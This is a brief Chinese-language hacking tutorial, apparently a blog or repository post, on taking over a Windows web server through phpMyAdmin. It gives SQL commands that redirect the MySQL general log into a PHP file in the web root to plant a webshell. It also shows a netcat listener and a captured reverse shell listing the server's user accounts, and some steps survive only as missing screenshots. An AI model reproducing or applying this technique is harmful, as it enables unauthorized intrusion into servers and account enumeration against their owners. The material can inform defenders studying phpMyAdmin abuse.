





> 本文介绍如何通过phpmyadmin获取windows服务器的webshell

#### phpmyadmin部分

* 查看mysql查询日志的状态

  

* 开启mysql的查询日志记录

  ```mysql
  set global general_log=ON
  set global general_log_file='C:\\phpStudy\\PHPTutorial\\WWW\\mysql_log.php';
  ```

  > 日志的生成路径是当前服务器路径

  

* 生成我们的一句话木马





#### 浏览器部分

* 确认日志文件是否生成

  

* 安装浏览器插件（模拟POST）

  我这里用的是火狐的*HTTP request Maker*

* 攻击机子开启本地监听

  ```sh
  xxmu@xxmu:~$ nc -v -l -p 6666
  Listening on [0.0.0.0] (family 0, port 6666)
  ```
* 浏览器模拟请求攻击
  
* 获得shell
```
xxmu@xxmu:~$ nc -v -l -p 6666
Listening on [0.0.0.0] (family 0, port 6666)
Connection from DESKTOP-9U0DO9G.lan 51175 received!
Microsoft Windows [�汾 10.0.17763.55]
(c) 2018 Microsoft Corporation����������Ȩ����

C:\phpStudy\PHPTutorial\WWW>net user
net user

\\DESKTOP-9U0DO9G ���û��ʻ�

-------------------------------------------------------------------------------
Administrator            amu                      DefaultAccount           
Guest                    WDAGUtilityAccount       
�����ɹ����ɡ�

```

#### 完结
